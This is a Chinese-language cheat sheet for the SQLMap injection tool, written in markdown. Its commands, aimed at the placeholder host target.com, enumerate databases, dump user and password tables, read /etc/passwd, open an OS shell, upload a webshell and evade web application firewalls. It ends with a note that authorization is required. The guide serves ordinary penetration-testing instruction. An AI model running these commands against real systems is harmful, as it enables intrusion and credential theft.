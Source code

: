 ```markdown
# SQLMap 全面使用指南 (2025年更新版)

## 一、基础环境配置
### 1.1 安装方法
```bash
# Kali Linux/Parrot OS 自带
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git
cd sqlmap && python3 sqlmap.py --version  # 验证安装

# Windows环境需预装Python3并配置环境变量
```

## 二、基础检测与信息获取
### 2.1 注入点探测
```bash
# GET型注入检测
python3 sqlmap.py -u "http://target.com/news.php?id=1" --batch

# POST型注入检测
python3 sqlmap.py -u "http://target.com/login" --data="user=admin&pass=123" --batch

# Cookie注入检测
python3 sqlmap.py -u "http://target.com/" --cookie="PHPSESSID=abc123*" --level 2
```
> **关键参数**：`--batch`自动选择默认选项，`--level`提升检测强度

### 2.2 数据库信息获取
```bash
# 获取所有数据库
python3 sqlmap.py -u "http://target.com?id=1" --dbs

# 查看当前数据库
python3 sqlmap.py -u "http://target.com?id=1" --current-db

# 列出指定库表结构
python3 sqlmap.py -u "http://target.com?id=1" -D security -T users --columns
```

## 三、高级利用技术
### 3.1 数据提取与脱库
```bash
# 导出指定表数据
python3 sqlmap.py -u "http://target.com?id=1" -D security -T users -C username,password --dump

# 批量导出所有数据
python3 sqlmap.py -u "http://target.com?id=1" --dump-all --output-dir=/tmp/sqlmap_data
```

### 3.2 系统权限获取
```bash
# 尝试获取系统Shell（需DBA权限）
python3 sqlmap.py -u "http://target.com?id=1" --os-shell

# 执行远程命令（Windows示例）
python3 sqlmap.py -u "http://target.com?id=1" --os-cmd "whoami"
```

### 3.3 文件读写操作
```bash
# 读取服务器文件
python3 sqlmap.py -u "http://target.com?id=1" --file-read="/etc/passwd"

# 上传Webshell（需写权限）
python3 sqlmap.py -u "http://target.com?id=1" --file-write="shell.php" --file-dest="/var/www/html/"
```

## 四、高级参数详解
### 4.1 绕过防护机制
```bash
# 使用Tamper脚本绕过WAF
python3 sqlmap.py -u "http://target.com?id=1" --tamper=charencode,space2comment

# 随机化请求特征
python3 sqlmap.py -u "http://target.com?id=1" --random-agent --delay=2
```

### 4.2 性能与检测优化
| 参数          | 功能说明                                                     | 典型值            |
| ------------- | ------------------------------------------------------------ | ----------------- |
| `--threads`   | 多线程加速检测（最大10）                                     | --threads=8       |
| `--level`     | 检测深度（1-5级，级别越高payload越多）                       | --level=5         |
| `--risk`      | 风险等级（1-3级，3级含危险操作）                             | --risk=3          |
| `--technique` | 指定注入类型（B:布尔盲注/E:报错注入/U:联合查询/S:堆叠注入/T:时间盲注） | --technique=BEUST |

## 五、实战场景案例
### 5.1 完整渗透流程
1. **漏洞检测**  
   ```bash
   python3 sqlmap.py -u "http://target.com/news.php?id=1" --batch
   ```
2. **获取数据库**  
   ```bash
   python3 sqlmap.py -u "http://target.com/news.php?id=1" --dbs
   ```
3. **提取关键数据**  
   ```bash
   python3 sqlmap.py -u "http://target.com/news.php?id=1" -D userdb -T accounts --dump
   ```
4. **权限提升**  
   ```bash
   python3 sqlmap.py -u "http://target.com/news.php?id=1" --os-shell
   ```

## 六、法律与安全规范
1. **授权要求**  
   所有测试必须取得目标系统所有者的书面授权
2. **风险规避**  
   生产环境禁用`--dump-all`等高风险操作，建议使用`--output-dir`隔离数据
3. **数据保护**  
   测试结果需加密存储，测试后应删除敏感数据

> **法律声明**：本文所述技术仅限合法授权测试使用，违反《网络安全法》将承担刑事责任

---

### 引用来源
: 腾讯云开发者社区-SQLMap详解  
: 极简速查指南-参数解析  
: 常用手册-高级命令  
: SQLMap安装与维护指南  
: 终极指南-实战案例  
: 入门操作教程  
: CSDN博客-基础教程  
: WAF绕过技巧  
: 高级参数详解文档  
```